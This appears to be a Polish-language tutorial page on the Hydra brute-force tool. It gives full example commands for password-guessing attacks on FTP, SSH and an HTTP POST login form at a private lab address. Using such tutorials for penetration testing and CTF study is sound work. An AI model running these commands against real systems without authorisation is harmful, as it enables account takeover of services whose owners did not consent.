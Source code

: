 # Hydra

Hydra jest szybkim i skutecznym narzędziem do ataków typu brute force na wiele różnych protokołów i usług sieciowych. Jest szeroko stosowana w testach penetracyjnych i CTFach do łamania haseł i innych informacji uwierzytelniających.

Hydra przeprowadza ataki przeszukując przestrzeń możliwych haseł w celu znalezienia prawidłowego. Atak siłowy polega na systematycznym sprawdzaniu wszystkich możliwych kombinacji haseł, dopóki nie zostanie znalezione prawidłowe. Hydra potrafi równocześnie atakować wiele hostów i obsługuje wiele protokołów i usług, w tym, między innymi, Telnet, FTP, HTTP, HTTPS, SMB, SNMP, SMTP, POP3, IMAP, Oracle, MySQL i wiele innych.

{% embed url="https://www.kali.org/tools/hydra/" %}
Hydra
{% endembed %}

## Przykłady użycia

### Atak na FTP

Poniższe polecenie wykonuje atak na serwer FTP, używając listy użytkowników *users.txt* i listy haseł *passwords.txt*:

```bash
hydra -L users.txt -P passwords.txt ftp://192.168.1.100
```

### Atak na SSH

Atak na serwer SSH z konkretnym użytkownikiem i listą haseł wygląda następująco:

```bash
hydra -l admin -P passwords.txt ssh://192.168.1.100
```

### Atak na formularz logowania na stronie internetowej

Hydra potrafi także atakować formularze logowania na stronach internetowych. Poniżej przykład ataku na formularz logowania metodą POST:

```bash
hydra -L users.txt -P passwords.txt 192.168.1.100 http-post-form "/login:username=^USER^&password=^PASS^:F=Invalid"
```

W tym przypadku `^USER^` i `^PASS^` to miejsca, w które Hydra wstawia nazwy użytkowników i hasła z list. `F=Invalid` oznacza, że Hydra szuka wyrazu *Invalid* w odpowiedziach HTTP, aby zidentyfikować nieudane próby logowania.
